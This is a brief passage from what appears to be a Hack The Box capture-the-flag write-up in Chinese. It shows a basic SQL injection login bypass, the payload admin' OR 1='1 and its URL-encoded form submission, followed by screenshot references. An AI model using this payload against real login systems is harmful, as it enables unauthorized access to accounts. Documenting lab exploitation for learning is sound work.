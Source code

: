### get flag

試試基本的 injection

```
admin' OR 1='1
```

```
username=admin%27+OR+1%3D%271&password=123
password: 123
```

![Untitled](HTB%20writeu%20673ee/Untitled%203.png)

![Untitled](HTB%20writeu%20673ee/Untitled%204.png)
